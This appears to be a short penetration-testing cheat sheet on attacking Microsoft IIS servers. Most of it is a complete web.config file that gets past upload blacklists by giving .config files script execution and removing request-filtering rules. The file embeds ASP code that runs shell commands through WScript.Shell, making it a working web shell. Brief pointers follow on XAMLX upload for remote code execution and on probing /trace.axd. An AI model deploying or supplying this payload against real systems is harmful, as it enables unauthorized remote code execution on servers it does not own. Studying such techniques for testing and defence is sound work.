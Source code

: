 IIS
===

## Bypass blacklist upload
It's possible to bypass blacklist upload while uploading a `web.config` file.
For this, you need to set execution rights to `.config` and then adding `ASP` code
in the `web.config`.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
   <appSettings>
</appSettings>
</configuration>
<!–-
<% Response.write("-"&"->")
Response.write("<pre>")
Set wShell1 = CreateObject("WScript.Shell")
Set cmd1 = wShell1.Exec("whoami")
output1 = cmd1.StdOut.Readall()
set cmd1 = nothing: Set wShell1 = nothing
Response.write(output1)
Response.write("</pre><!-"&"-") %>
-–>
```


## Upload XAMLX file to get RCE
[NCCGroup](https://www.nccgroup.trust/uk/about-us/newsroom-and-events/blogs/2019/august/getting-shell-with-xamlx-files/)
describes how to upload a `XAMLX` file to execute code on a remote IIS server.


## Tracing
[Tracing](https://docs.microsoft.com/en-us/previous-versions/dotnet/articles/ms972204(v=msdn.10)?redirectedfrom=MSDN)
might be activate on the server. For example, check `/trace.axd`.